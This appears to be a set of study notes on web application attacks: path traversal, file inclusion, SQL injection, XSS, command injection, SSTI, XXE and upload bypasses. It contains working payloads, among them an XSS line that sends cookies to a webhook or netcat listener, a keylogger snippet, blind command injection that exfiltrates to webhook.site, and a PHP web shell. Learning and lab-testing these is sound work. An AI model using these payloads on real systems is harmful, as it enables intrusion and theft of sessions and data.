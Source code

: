 ### Local File Inclusion
- This is a vulnerability where there is no safety mechanism set to prevent accessing files in the local server.
- for Eg: `https://example.com/contact?filename=contacts.txt` this link look for the file contacts and print it to the screen.
- we can modify this link to access sensitive files like this: `https://example.com/contact?filename=../../../../../etc/passwd` If it is vulnerable it will give out the contents passwd file.
- https://github.com/swisskyrepo/PayloadsAllTheThings : this repository is a good place to look around the payloads for testing.
- In burp pro we can use the path traversal list from the intruder payload section.
- sometimes the server look for characters like `../` and remove it before processing.
- One way to bypass it is by right click on the selection and encode it.(Not always work)
- maybe the server is using recursive filtering then we can use : `..././..././..././..././`
- what we did is we place ../ in the middle of each to bypass the non recursive filtering.
### Remote File Inclusion
- Similar to LFI but we can include links to file in the place where we do LFI.
- eg : `https://example.com/contact?filename=https://google.com/notes.txt`
- The file is don't necessarily have to be mentioned in the URL if it is an API driven application It could be somewhere in request also.
- Burp can be used to intercept the traffic and repeat it.
### SQL Injection
- If we can execute malicious SQL code in a text field to obtain information that we not suppose to see that is called SQL Injection.
- For eg in an app where we enter the username to obtain the email address as output. We might be able to enter `jeremy' OR 1=1#` This might evaluate the SQL code as true and returns all the result.
- `jeremy' union select null,null#` what this command is used is for identifying how many number of column is selected. Increase the number of null until a result is obtained.
- if there is 3 columns being selected we do something like `jeremy' union select null,null,version()#`. Which returns the version of the database.
- we can see all the table names with `jeremy' union select null,null,table_name from information_schema.tables#` 
- Now the symbol # depends on the database we are using. It can also be -- - based on the database software.
- There is a cheat sheet available at : https://portswigger.net/web-security/sql-injection/cheat-sheet
### Blind SQL Injection 
- There might be other injection points other than the input fields that are vulnerable to injection Attacks.
- the parameter field of the post request maybe vulnerable
- the session cookie field of the request maybe vulnerable.
- we can use SQL map to test for vulnerabilities automatically.
- we can automate the SQL vulnerability scanning by using SQLMap.
- copy the request to a text file.
- then use : `sqlmap -r req.txt`.
- The vulnerability doesn't have to be on the post request. It can be on the get request which contain session cookies also.(SQL Injection when processing the cookie by server.)
- Now this particular type injection doesn't return any data. 
- But we can ask database questions like 'is the first letter of password is a'.
- we sub string function for this attack.
- A simple example of this would be in the request: `Cookie : session=<session token> and substring(select version(),1,1) = '8'`.
- What happens in the above request is that the first character of the version number is checked whether it's equal to '8'. If it is, the request get accepted and show the success request output.
- To automate this we can use : `sqlmap -r req.txt --level=2 --dump`.
- if we know the table name and only want to dump contents from that particular table we can use: `sqlmap -r req.txt --level=2 -T < table_name > --dump`.
### Cross Site Scripting
- Three types: 
	- **Reflected** : Malicious script comes from the current HTTP request and is reflected back in the response.
		- Only useful if it can be used in the URL. otherwise the payload only work for our self.
	- **Stored** : Malicious script is permanently stored on the server (e.g., database, comment section, user profile) and served to users later.
		- Attacker posts `<script>alert(1)</script>` in a forum comment; any visitor sees the pop-up.
	- **DOM-based** : Malicious script execution happens entirely on the **client side** due to insecure JavaScript modifying the DOM, without needing a new page load or server response injection
		- The vulnerability is not in the server, but in the **client-side JavaScript** running in the browser.
- If we managed to find a XSS vulnerability we can use something like `function logKey(event){console.log(event.key)}` and then `document.addEventListener('keydown', logKey)` What this does is print the key pressed to the console. we can may be able to send the result to a C2 when  the key is pressed by the victim.
- to learn java script **w3school** can be a great resource.
- For testing XSS we can use : `<scritpt>alert(1)</script>` or `<script>prompt(1)</script>`
- sometime simple one like alert might be blocked.
- When we are listening for user interaction like sending the cookie to our system for that we can use **netcat**. or we can simply use https://webhook.site  which listen for requests it receive.
- A most used payload will be : `<script>var i = new Image;i.src="<webhook link or nc listner>"+document.cookie;</script>` this send a request to fetch the image along with the cookie also.
### Command Injection
- There might be fields where we can input and eval() command is used to execute the functionality.
- Without a proper sanitation we can execute other commands also.
- for example a input field which accept a domain and do a ping command in background and output a result to the screen.
- we can use operators like `;` to isolate the command and execute another command like `whoami` or any other command. maybe a command to get a reverse shell also.
- This vulnerability is command injection.
### Blind Command Injection
- This command injection doesn't directly give the output to the screen.
- But we can get the result of command injection from the request.
- I.e `http://webhook.site/<uniq-id>?q='whoami'` Now the resulting request send to the web hook site might contains actually the result of the whoami command. Now the whoami is not enclosed in quotes but in **back-quotes** .
### Server-Side Template Injection
- When user input is directly embedded into a server-side template without proper sanitation or validation it leads to SSTI vulnerability.
- Since many web frameworks (like Jinja2 in Python, Twig in PHP, Mako, etc.) allow dynamic code execution inside templates, an attacker can inject malicious template expressions that the server will execute.
- Just like any other injection attacks we have an input field.
- we can try something basic like `{{7*7}}`
- If it returns  49 the site is vulnerable to SSTI. Based on the template engine used the payload may vary.
- we can use https://book.hacktricks.xyz and look for ssti to get example payloads based on template engine.
- we can use `Fuzzing - template injection` list on burp suite pro , get it from GitHub or payload all the things.
- Sometimes based on the result we get on the browser it may seem that there is no template injection. but if we view it in burp we can see that the command get executed. but the in some cases the client side java script covers this vulnerability making it difficult to detect the vulnerability just by simple test.
### XML External Entity Injection (XXE)
- This vulnerability might exist if an application accepts a XML upload.
- This vulnerability is not seen anymore. but it is worth testing for it.
- The following is an example malicious payload:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE creds [
<!ELEMENT creds ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds><user>&xxe;</user><password>pass</password></creds>
```
This get the contents from the /etc/passwd and place at position &xxe.
- A safe example of xml would be this:
```
<?xml version="1.0" encoding="UTF-8"?>
<creds>
    <user>testuser</user>
    <password>testpass</password>
</creds>
```

### Insecure File Uploads
- Vulnerable file uploads allow the upload of files and executing it later on.
- we can upload some payloads that might give us reverse shell when the upload file is accessed.
- The most common one is php reverse shell payloads.
- The file upload may only allows upload of certain file types.
- In other cases there might be java script code that check the uploaded file with server in such cases we can simply disable the java script as it client side.
- We need to find where the file is being uploaded. we might need to fuzz for that directory if it is not mentioned anywhere.
- A simple php payload would be `<?php system($_GET['cmd']); ?>`
-  then we can simply pass on a command like `https://example.com/upload/payload.php?cmd=cat /etc/passwd` which would yield us results.
- we can modify the request from burp and do the file upload. but what if the check is from server side?
- Sometimes the server only look for the extension in the request. then we can do :
- `filename="logo3.php%00.png"` the %00 is call null byte which omit. This method works for older servers.
- Otherwise some web servers use regex and only look for png in the file name and without checking the end of line. then we can do : `filename="logo3.php.png"`
- If the check is server side and it only looks for the magic bytes of the file then we can simply put the payload between a image file itself inside the request and keep the first few part and last part. but use the file name with php extension so that it executes. This might work sometimes.
- we can also use other php extension. we can get those extensions simply by searching valid php extensions like phtml, php4, php5,php7,etc 
- More reading materials and labs are there in PortSwigger labs.